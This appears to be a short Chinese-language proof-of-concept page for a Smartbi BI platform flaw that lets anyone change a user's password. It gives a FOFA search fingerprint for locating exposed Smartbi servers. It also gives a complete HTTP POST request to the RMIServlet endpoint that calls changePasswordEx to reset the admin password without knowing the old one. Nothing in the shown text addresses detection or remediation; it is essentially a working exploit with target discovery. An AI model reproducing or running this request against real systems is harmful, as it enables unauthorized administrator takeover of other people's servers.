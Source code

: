 # Smartbi修改用户密码漏洞

Smartbi修改用户密码漏洞

## fofa

```javascript
body="gcfutil = jsloader.resolve('smartbi.gcf.gcfutil')"
```

## poc

```javascript
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

className=UserService&methodName=changePasswordEx&params=["admin","","1"]
```

![9b32574b377d64a607e4dcacea7ebf7e](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251446830.png)

![63b435599730ed2ea73434ef51b23a30](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251447017.png)